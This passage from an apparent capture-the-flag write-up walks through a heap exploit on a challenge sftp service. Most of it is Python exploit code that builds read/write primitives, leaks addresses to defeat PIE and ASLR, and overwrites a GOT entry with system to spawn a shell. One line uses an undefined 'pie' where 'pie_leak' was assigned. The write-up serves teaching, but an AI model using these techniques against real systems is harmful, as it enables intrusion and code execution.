 ```python
    rm("padding")

  put("entry", "overwrite")

  for i in range(entryNum + 1, contentNum):
    put("padding", "padding" + str(i))
    rm("padding")
  
  put("content", "A" * overwriteSize)
```

We can now overwrite the file entry with what ever we want, so we can create some helper functions for a read/write primative. Here `root` is the heap address of the root folder to set as the parent directory, this will just be the first entry in our list of malloced addresses.

```python
def set_addr(addr, dist, root):
  payload = p64(root)                   # parent dir
  payload += p32(2)                     # type
  payload += "entry".ljust(20, "\x00")  # name
  payload += p64(8)                     # size
  payload += p64(addr)                  # data

  put("content", "B" * dist + payload)


def leak(addr, dist, root):
  set_addr(addr, dist, root)
  data = get("entry")
  
  return u64(data.ljust(8, "\x00"))

def write(addr, value, dist, root):
  set_addr(addr, dist, root)
  put("entry", p64(value))
```

Now it's just a matter of leaking eough to defeat pie and aslr so that we can overwrite a GOT entry, luckily they were using the same libc as me but otherwise it could have been looked up [somewhere like this](https://libc.blukat.me/?q=fgets%3A0x7fc32f918ad0%2Cputs%3A0x7fc32f91a690)

```python
print "leaking root folder: 0x{:x}".format(allocated[0][0])
pie_leak = leak(allocated[0][0], dist, allocated[0][0])
log.info("pie_leak: 0x{:x}".format(pie_leak))

binary.address = pie - 0x208be0
log.info("pie: 0x{:x}".format(binary.address))

puts = leak(binary.got["puts"], dist, allocated[0][0])
log.info("puts: 0x{:x}".format(puts))

fgets = leak(binary.got["fgets"], dist, allocated[0][0])
log.info("fgets: 0x{:x}".format(fgets))
libc.address = fgets - libc.symbols["fgets"]

write(binary.got["__isoc99_sscanf"], libc.symbols["system"], dist, allocated[0][0])

p.sendlineafter("sftp>", "ls; bash")
p.interactive()
```
